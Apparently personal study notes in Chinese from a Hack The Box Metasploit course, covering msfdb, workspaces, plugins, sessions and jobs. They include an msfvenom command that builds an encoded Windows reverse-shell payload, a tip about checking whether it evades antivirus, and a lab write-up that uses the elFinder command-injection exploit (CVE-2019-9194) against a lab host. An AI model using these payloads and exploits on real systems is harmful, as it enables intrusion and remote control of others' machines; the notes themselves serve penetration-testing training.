 create an encoded payload
```
user@htb$ msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```

可以結合`mfs-virustotal` 來看加密後的會不會被偵測到(需要先申請VT API)

>Database

```
sudo systemctl start postgresql

sudo msfdb init
sudo msfdb status
sudo msfdb run

sudo systemctl status postgresql
```

用`workspace`
`-a` 添加工作區
`-d` 刪除工作區

還有個`db_nmap`指令 :O

`hosts`：显示当前数据库中保存的所有主机信息
`services`：显示当前数据库中保存的所有服务信息
`creds`：显示当前数据库中保存的所有与目标进行交互的凭证
`loot`：显示当前数据库中保存的所有用户与服务凭证，与creds命令搭配使用

>Plugins

依然是插件王者
`ls /usr/share/metasploit-framework/plugins`

其他資源: https://github.com/darkoperator/Metasploit-Plugins.git

啟動
`load <PLUG-IN>`

>Sessions

他可能是想tmux跟git的聰明小功能都搞了

`Ctrl+Z` 把session丟到背景
`sessions` 列出所有session
`sessions -i <No.>` 跟特定sesssion互動

>jobs

`jobs -l`
`jobs -K` kill all
`kill <NO.>`

>[!note]+ LAB3
>先從html看到它是一個elfinder系統在/#elf_l1_Lw下面
>看了一下有一個elFinder RCE(CVE-2019-9194)
>nmap:
>```txt
>PORT   STATE SERVICE VERSION
>22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
>80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
>Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
>msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set TARGETURI /#elf_l1_Lw
>TARGETURI => /#elf_l1_Lw
>msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set LHOST 10.10.14.18
>LHOST => 10.10.14.18
>msf6 exploit(linux/http/elfinder_archive_cmd_injection) > set RHOST 10.129.38.184
>```
>這樣是進去了 但是顯示是`www-data` 需要提權到root
>然後我是小丑 其實這是sudo CVE